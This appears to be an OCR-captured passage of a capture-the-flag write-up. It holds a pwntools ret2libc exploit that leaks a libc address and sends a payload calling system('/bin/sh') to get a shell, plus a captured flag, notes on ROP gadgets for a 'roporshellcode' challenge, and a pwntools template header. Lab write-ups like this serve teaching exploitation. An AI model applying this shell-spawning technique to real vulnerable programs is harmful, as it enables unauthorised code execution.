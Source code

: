 ```

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
    libc = ELF('./libc-2.23.so')
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
    libc = ELF('/lib/i386-linux-gnu/libc-2.27.so')
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
p.recvuntil(b'- ',drop=True)
setbuf_leak = p.recvline()
setbuf_leak = setbuf_leak[:-3]
setbuf_leak = int(setbuf_leak, 16)
log.info(f"setbuf is at: {hex(setbuf_leak)}")
p.recvline()

setbuf_offset = libc.symbols["setbuf"] #0x52900
libc.address = setbuf_leak - setbuf_offset
log.info(f"base libc address: {hex(libc.address)}")
libc_system = libc.symbols["system"]
libc_binsh = next(libc.search(b'/bin/sh\00'))
assert(libc_binsh is not None)
return_addr_junk = p32(0)

# buffer at ebp-4ce

payload = (p32(libc_system) + return_addr_junk + p32(libc_binsh)) *0x65
payload += b'\x00'*14

p.sendline(payload)
p.interactive()

```

roporshellcode
================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNS1yb3BvcnNoZWxsY29kZSIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiJlYjM1M2M2Yi1mNDUyLTQyMjUtOWI3Mi1jZmViN2EzNTkyNTYifQ.h7Y5_7IcWzXM1iQm-knLqLoIHEE-trBoxKchNOvgDDQ}
General overview of problems faced
----------------------------------------------------------------
Very few useful gadgets, especially to manipulate ecx.
Need to somehow store the writable region address into ecx.
Can use mov ecx, esp but we'd probably need a way to store the original values to uncorrupt the register (mov ebp, esp)
Script/Command used
-----------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './roporshellcode' #Change this

PROGNAME = exe
```